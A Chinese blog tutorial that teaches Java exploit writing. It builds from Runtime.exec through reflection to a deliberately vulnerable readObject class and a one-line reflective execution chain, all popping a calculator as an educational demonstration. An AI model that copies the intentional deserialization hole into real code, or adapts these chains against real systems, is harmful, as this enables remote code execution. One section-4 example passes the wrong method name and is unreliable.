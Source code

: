 ```yaml
---
title: java漏洞POC编写
date: 2021-12-15 13:13:04
categories: Java安全
tags:
- Java漏洞利用
---
```


> 曲径通幽处，禅房花木深。

java poc编写入门。

本文从最简单的使用Runtime执行命令，再通过反射执行命令，之后又在反序列场景执行命令，最后是反序列化和反射结合执行命令。

<!-- more -->



## 1. 最简单的执行命令

目标：首先明确我们的最终目的是为了执行语句`Runtime.getRuntime().exec("open -a calculator");`

- Runtime.getRuntime：获取一个Runtime的实例
- exec()：调用实例的exec函数
- "open -a calculator": 执行的参数

最简单的弹计算器：

```java
public class ExecRuntimeDemo {
    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("open -a calculator");
    }
}
```





## 2. 反射改造

因为最后是通过反射机制来进行漏洞利用的，

所以先进行反射改造

最简单的反射构造应该是如下：

```java
public class ReflectDemo {
    public static void main(String[] args) throws Exception {
        //1. 获取Runtime的Class对象
        Class runtimeClass = Class.forName("java.lang.Runtime");
        
        //2. 通过Class对象调用exec方法
        Method execMethod = runtimeClass.getMethod("exec", String.class);
        //Runtime runtime = new Runtime(); 不可以，Runtime类是单例模式。每个 Java 应用程序都有一个 
       	//Runtime类实例,通过getRuntime方法获取当前Runtime运行时对象的引用。
        
        //3. 创建一个Runtime对象
        Runtime runtime = Runtime.getRuntime();
        
        
        //4. 在方法对象中传入对象和参数执行方法
        execMethod.invoke(runtime, "open -a calculator");
    }
}
```







## 3. 序列化与反序列化

编写一个存在漏洞的重写了readObject的类

```java
package POCDemo;

import serializable.Serialize;

import java.io.Serializable;

public class VulnClass implements Serializable {
    public String cmd;
    private void readObject(java.io.ObjectInputStream stream) throws Exception {
        stream.defaultReadObject();
        Runtime.getRuntime().exec(cmd);
    }

}

```



客户端构造一个恶意类，传给服务端，服务端在反序列化时调用了重写的readObject方法，导致命令被执行

```java
package POCDemo;

import java.io.*;

public class RuntimeSerializable {
    public static void main(String[] args) throws Exception {
        //客户端写入文件
        VulnClass vulnClass = new VulnClass();
        vulnClass.cmd = "open -a calculator";
        FileOutputStream fileOutputStream = new FileOutputStream("payload.bin");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(vulnClass);


        //服务端读取文件，反序列化，模拟网络传输
        FileInputStream fileInputStream = new FileInputStream("payload.bin");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);

        VulnClass vulnClass1 = (VulnClass) objectInputStream.readObject();

    }

}

```









## 4. 反序列化反射改造1

1. 客户端将payload序列化，传给服务端

2. 服务端将其反序列化，通过反射执行payload

需要说明的是，这里不是完全反射，需要在服务端传入Runtime类。

重写了readObject的漏洞程序：

```java
package POCDemo;

import java.io.Serializable;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class VulnClass implements Serializable {

    private final String iMethodName;
    private final Class[] iParamTypes;
    private final Object[] iArgs;

    public VulnClass(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
    private void readObject(java.io.ObjectInputStream stream) throws Exception {
        stream.defaultReadObject();

    }
    public Object vulnInvoke(Object input) throws Exception {
        Class cls = input.getClass();
        Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
        return method.invoke(input, this.iArgs);
    }

}

```



反序列化后通过反射执行

```java
package POCDemo;

import java.io.*;

public class RuntimeSerializable {
    public static void main(String[] args) throws Exception {
        //客户端写入文件
        VulnClass vulnClass = new VulnClass(
                "Runtime.class",
                new Class[]{String.class},
                new Object[]{"open -a calculator"}
        );
        FileOutputStream fileOutputStream = new FileOutputStream("payload.bin");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(vulnClass);


        //服务端读取文件，反序列化，模拟网络传输
        FileInputStream fileInputStream = new FileInputStream("payload.bin");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);

        VulnClass vulnClass1 = (VulnClass) objectInputStream.readObject();

        Runtime runtime = Runtime.getRuntime();
        vulnClass1.vulnInvoke(runtime);
    }

}

```



## 5. 反序列化反射改造2

我们要进行完全反射的话，不能在服务端创建Runtime对象，那么我们需要反射出服务端的Runtime实例对象。

反射实例对象

```java
Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"))
```

那么完整payload就如下

```java
package POCDemo;

import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Calendar;

public class ReflectDemo {
    public static void main(String[] args) throws Exception {
        Class runtimeClass = Class.forName("java.lang.Runtime");
        Method runtimeMethod = runtimeClass.getMethod("exec", String.class);
        runtimeMethod.invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),"open -a calculator");
    }
}
```

这里需要知道getMethod("getRuntime")是因为java.lang.Runtime是单例模式，只能通过getRuntime方法获取对象。



将上诉poc改成一句就为

```java
package POCDemo;

import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Calendar;

public class ReflectDemo {
    public static void main(String[] args) throws Exception {
        Class.forName("java.lang.Runtime").getMethod("exec", String.class).invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),"open -a calculator");
    }
}

```





## 6. 总结

本文从最简单的使用Runtime执行命令，再通过反射执行命令，之后又在反序列场景执行命令，最后是反序列化和反射结合执行命令。

